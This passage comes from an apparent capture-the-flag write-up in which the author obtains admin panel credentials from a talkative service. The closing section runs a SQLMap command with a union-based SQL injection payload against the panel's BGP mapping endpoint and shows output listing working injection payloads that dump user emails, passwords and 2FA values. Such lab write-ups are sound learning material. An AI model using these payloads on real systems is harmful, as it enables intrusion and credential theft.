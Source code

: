 **Results:**
```
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? admin
What's up, Admin! It's been a while. What are you here for? password
Ya' know what? Admin. If you can answer a question about me, I might have something for you.
What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? Bulldog
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!
```

All that effort and I just needed to wait for the port scan to finish! Hydra would have never found that password anyway! Back to those vulnerabilities in this version. Now we have a username and password!

### Exploit-db

There are a few on exploit DB for this version as previously mentioned. I tried them but they all failed! 

There is this article that helped me test the process manually and it worked! So the vulnerability works but the scripts don't. I had a quick look but couldn't see anything wrong. 
```
https://fluidattacks.com/advisories/mercury
```

### 🔍 Back to SQLMap

I used burpquite to capture the request using the information above. So that I can pipe it into SQLMap. We're going to need the cookie so we can be authenticated and we need the posted data.

```bash
sqlmap http://10.10.55.216/app/admin/routing/edit-bgp-mapping-search.php --cookie=1p5b77e1apife9e39m7gn6acrq --method=POST --data="subnet=union+select(select+concat(%40%3A%3D0x3a%2C(select%2Bcount(*)+from(users)where(%40%3A%3Dconcat(%40%2Cemail%2C0x3a%2Cpassword%2C%220x3a%22%2C2fa)))%2C%40))%2C2%2C3%2Cuser()+--+-&bgp_id=2"  
```
**Results:**
```
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] y
[13:34:25] [INFO] resuming back-end DBMS 'mysql' 
[13:34:25] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:

Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: subnet=union select(select concat(@:=0x3a,(select+count(" OR NOT 5395=5395#) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -&bgp_id=2

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: subnet=union select(select concat(@:=0x3a,(select+count(" AND GTID_SUBSET(CONCAT(0x7178707871,(SELECT (ELT(4522=4522,1))),0x716a7a6271),4522)-- vHFr) from(users)where(@:=concat(@,email,0x3a,password,"0x3a",2fa))),@)),2,3,user() -- -&bgp_id=2

```